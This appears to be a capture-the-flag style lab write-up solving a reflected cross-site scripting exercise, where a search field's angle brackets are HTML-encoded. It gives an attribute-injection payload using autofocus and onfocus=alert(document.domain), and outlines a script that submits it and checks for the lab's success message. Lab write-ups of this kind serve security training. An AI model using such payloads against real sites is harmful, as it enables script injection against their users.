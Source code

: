 ### Lab: Reflected XSS into attribute with angle brackets HTML-encoded

This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded.  

To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function.

_____

Analysis and Exploit:

1. Test using \<a>
    - in response ```<h1>0 search results for '&lt;a&gt;'</h1>```

2. Payload ```" autofocus onfocus=alert(document.domain) x="```
    - in response ```<h1>0 search results for '&quot; autofocus onfocus=alert(document.domain) x=&quot;'</h1>```


_____

Script:

1. Send payload | POST **/?search=** | params 'xss payload'
    - xss payload = ```" autofocus onfocus=alert(document.domain) x="```

2. Check if exploit was successul | GET **/**
    - if "Congratulations, you solved the lab!" in response: ok!
